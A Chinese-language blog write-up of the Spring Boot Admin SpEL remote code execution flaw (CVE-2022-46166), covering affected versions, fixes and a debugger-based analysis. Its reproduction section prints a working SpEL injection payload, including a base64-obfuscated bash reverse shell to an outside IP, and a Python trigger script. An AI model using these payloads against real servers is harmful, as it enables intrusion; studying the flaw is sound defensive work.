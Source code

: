 ```
title: Spring_Boot_Admins_integrated_notifier_support_SpEL远程代码执行(CVE-2022-46166)
date: 2023-07-23 18:53:00 +0800
img_path: /
categories: [肾透, 漏洞利用]
tags: [肾透, 漏洞利用]     
```

# Spring_Boot_Admins_integrated_notifier_support_SpEL远程代码执行(CVE-2022-46166)

## 1 漏洞简介

`Spring Boot Admin`是一个用于管理`Spring Boot`应用程序的开源管理用户界面，用于监控`Spring Boot`单机或集群项目，它提供详细的健康信息、内存信息、JVM系统和环境属性、垃圾回收信息、日志设置和查看、定时任务查看、Spring Boot缓存查看和管理等功能。

当`Spring Boot Admin`管理的`application`中启用了`notifier` ，并且存在弱口令或者未授权时，攻击者可利用相关接口设置相关配置，触发`SpEL`表达式，执行任意命令。

所有运行 `Spring Boot Admin Server`、启用通知程序（例如 `Teams-Notifier`）并通过 UI 写入环境变量的用户都会受到影响。 建议用户升级到最新版本的 Spring Boot Admin 2.6.10 和 2.7.8 以解决此问题。 无法升级的用户可以禁用任何通知程序或禁用 `/env` 执行器端点上的写访问（POST 请求）。

## 2 影响范围

2.6.0 ≤ Spring Boot Admin < 2.6.10

2.7.0 ≤ Spring Boot Admin < 2.7.8

3.0.0 ≤ Spring Boot Admin < 3.0.0-M6

## 3 环境搭建



## 4 漏洞分析

`server`端的详细信息页面

[![image-20230211162223391](assets\202302111622455.png)](https://cdn.jsdelivr.net/gh/DickDock/pic/blog/202302111622455.png)

可以看到这里是可以修改相应客户端的环境变量信息的，当然这里我是把`server`端自己注册为自己的`client`端，实现自己监控自己，同时也可以修改`server`端自己的环境变量。

然后跟进`getValue`方法，这里是`CompositeStringExpression`类下的`getValue`方法，调用栈如下

![image-20230211162812448](assets\202302111628479.png)

然后注意到这里的默认评估表达式其实就是一个`SpEl`表达式

![image-20230211162931741](assets\202302111629783.png)

继续跟进`DingTalkNotifier`

![image-20230211163148139](assets\202302111631191.png)



可以看到这里的`content`已经调用刚才的`SpEL`表达式进行了解析，那我们有没有办法控制刚才的`SpEL`表达式呢？

答案是有的

没错，就是刚才我们看到的`server`端的环境变量页面。我们可以修改server端的环境变量，把钉钉消息通知的模板改为我们指定的内容，这里自然是要改成我们特定的`SpEL`表达式。

接下来我们实践一下

修改`server`端的环境变量

![image-20230211163635126](assets\202302111636177.png)

这里我们把`spring.boot.admin.notify.dingtalk.message`的属性值改为了`\#{2*2}`

接下来再次使用`Python`模拟注册客户端并触发通知，然后跟进我们的断点

![image-20230211164036448](assets\202302111640519.png)



![image-20230211164110378](https://cdn.jsdelivr.net/gh/DickDock/pic/blog/202302111641449.png)

可以看到这里我们在环境变量中配置的`SpEL`表达式已经被解析为了`4`，也就是`2*2`的计算结果。

所以这里其实就是一种触发的方式

## 5 漏洞复现

这里我们把`spring.boot.admin.notify.dingtalk.message`的属性值改为了

`#{T(java.lang.Runtime).getRuntime().exec("calc")}`

``` sh
#{T(java.lang.Runtime).getRuntime().exec("bash -c {echo,YmFzaCAtaSA+JiAvZGV2L3RjcC8zOS4xMDcuMTEzLjI1MC85MDAyIDA+JjE=}|{base64,-d}|{bash,-i}")}

```



![image-20230516202245605](assets\image-20230516202245605.png)

触发脚本：

``` py3
import requests

url = "http://127.0.0.1:8080/instances"

data = {
    "name": "client",
    "managementUrl": "http://127.0.0.1:8444/actuator", "healthUrl": "http://127.0.0.1:8444/actuator/health",
    "serviceUrl": "http://127.0.0.1:8444", "metadata": {"startup": "2023-05-16T19:47:50.9381867+08:00"}
}

response = requests.post(url, json=data)

print(response.text)

```

![image-20230516202428303](assets\image-20230516202428303.png)